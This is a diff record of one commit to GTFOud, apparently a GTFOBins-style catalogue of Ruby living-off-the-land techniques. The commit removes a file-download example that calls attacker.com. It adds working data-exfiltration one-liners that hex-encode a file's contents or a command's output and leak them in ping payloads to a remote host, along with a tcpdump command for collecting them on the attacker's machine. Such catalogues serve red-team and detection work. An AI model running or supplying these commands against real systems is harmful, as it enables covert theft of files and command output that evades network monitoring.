

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/ruby.md, in a window 1280 px wide. Shown: the part 335-1223 px from the top of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add files via upload

```diff
--- a/_gtfoud/ruby.md
+++ b/_gtfoud/ruby.md
@@ -3,12 +3,25 @@ functions:
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
-        ruby -e 'require "open-uri"; download = open(ENV["URL"]); IO.copy_stream(download, ENV["LFILE"])'
+        ruby -e 'require "open-uri"; download = open(ENV["$RURL"]); IO.copy_stream(download, ENV["$LFILE"])'
   server:
     - description: Serve files in the local folder running an HTTP server. This requires version 1.9.2 or later.
       code: |
-        export LPORT=8888
         ruby -run -e httpd . -p $LPORT
+  data-exfiltration:
+    - description: |
+        Capture ICMP packets embedded in ping requests.
+        Run `sudo timeout 10 tcpdump -i any -l -n -XX 'icmp' 2>/dev/null | grep '0x0060:'` on the attacker box to collect the data.
+        ⚠️ Increase the timeout flag based on the amount of data.
+        ⚠️ Manual parsing or reconstruction is required.
+
+        Send local file content over ICMP using hex-encoded payloads.
+      code: |
+        ruby -e 'data=File.read("$LFILE").unpack("H*")[0];
+        0.step(data.size-1,16){|i| system("ping -c1 -p #{data[i,16]} $RHOST") }'
+
+    - description: Send command output over ICMP using hex-encoded payloads.
+      code: |
+        ruby -e 'data=%x{$CMD}.unpack("H*")[0];
+        0.step(data.size-1,16){|i| system("ping -c1 -p #{data[i,16]} $RHOST") }'
 ---
```
Also changed, not shown: _gtfoud/perl.md (added, +19 -0 lines).
